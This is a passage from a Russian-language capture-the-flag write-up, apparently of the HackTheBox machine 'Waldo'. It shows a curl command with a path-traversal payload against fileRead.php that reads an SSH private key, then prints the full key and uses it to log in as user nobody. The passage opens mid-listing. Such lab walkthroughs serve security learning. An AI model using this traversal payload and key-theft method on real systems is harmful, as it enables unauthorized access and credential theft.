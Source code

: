 ```text
  "known_hosts"
]
```

```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//home/nobody/.ssh/.monitor' http://10.10.10.87/fileRead.php | jq -r .'file'
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
```

# SSH — Порт 22 (внутри машины)
Врываемся:
```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//home/nobody/.ssh/.monitor' http://10.10.10.87/fileRead.php | jq -r .'file' > nobody.key
root@kali:~# chmod 600 nobody.key
```

```text
root@kali:~# ssh -oStrictHostKeyChecking=no -i nobody.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ whoami
nobody
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
waldo:~$ uname  -a
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64 Linux
```
